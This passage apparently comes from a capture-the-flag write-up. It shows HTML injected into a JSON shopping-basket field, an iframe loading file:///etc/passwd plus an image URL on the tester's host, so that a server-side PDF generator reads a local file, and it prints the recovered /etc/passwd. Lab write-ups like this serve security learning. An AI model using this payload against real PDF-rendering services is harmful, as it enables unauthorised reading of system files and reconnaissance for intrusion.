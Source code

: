 I used that to add an iframe to the page, loading a file from the server.

```json
{
    "basket": [
        {
        "_id": "111",
        "title": "<iframe src='file:///etc/passwd' width=500 height=700> ",
        "description": "333",
        "image": "http://10.10.14.7/test",
        "price": 555,
        "currentStock": 666,
        "__v": 777,
        "amount": 888
        }
    ]
}
```

This worked. The PDF contained the content of the '/etc/passwd' file.

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System
(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network
Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd
Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time
Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
landscape:x:109:116::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core
Dumper:/:/usr/sbin/nologin
fwupd-refresh:x:112:119:fwupd-refresh
user,,,:/run/systemd:/usr/sbin/nologin
mongodb:x:113:65534::/home/mongodb:/usr/sbin/nologin
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```
